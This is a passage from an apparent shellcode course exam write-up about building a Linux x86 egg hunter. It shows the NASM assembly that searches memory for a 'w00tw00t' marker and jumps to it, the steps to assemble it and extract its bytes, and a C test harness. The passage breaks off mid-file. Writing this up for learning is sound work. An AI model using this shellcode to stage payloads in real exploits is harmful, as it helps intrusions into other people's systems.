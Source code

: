 ```

NEXT_ADDRESS: ; increment memory address to look at
  inc edx

; ACCESS check
; int access(const char *pathname, int mode);
; syscall # 33 (0x21)
;
; Argument Values
; *pathname - address we are checking (edx)
; mode - mode we are checking for F_OK=0 (ecx)

  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80

  ; check results
  cmp al, 0xf2 ; EFAULT = 14 -> 0xe -> 2's complement -> 0xf2
  jz short NEXT_REGION ; In a bad region, move to next page

  cmp dword [edx], 0x74303077 ; w00t
  jnz short NEXT_ADDRESS

  cmp dword [edx+4], 0x74303077 ; second w00t
  jnz short NEXT_ADDRESS

  add edx, 0x8 ; Move past the w00tw00t
  jmp edx
```


As a naive approach, this seems like it will work! Comparing it with the paper mentioned above, it just about matches up. We'll go ahead and put together our shellcode file, using an execve /bin/sh shellcode, and launch it to make sure everything executes as expected.

**_Generating the shellcode_**

```bash
root@kali:~/courses/slae/exam# nasm -f elf32 -o assignment3.o assignment3.nasm
root@kali:~/courses/slae/exam# ld -o assignment3 assignment3.o

root@kali:~/courses/slae/exam/assignment3# objdump -d ./assignment3|grep
 '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' '
 '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80
\x3c\xf2\x74\xed\x81\x3a\x77\x30\x30\x74\x75\xea\x81\x7a\x04\x77\x30\x30\x75
\xe1\x83\xc2\x08\xff\xe2"
```

**_shellcode.c_**

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Hunting for w00tw00t
unsigned char eggHunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80"
"\x3c\xf2\x74\xed\x81\x3a\x77\x30\x30\x74\x75\xea\x81\x7a\x04\x77\x30\x30\x75"
"\xe1\x83\xc2\x08\xff\xe2";

unsigned char egg[] = "\x77\x30\x30\x74"; // w00t

```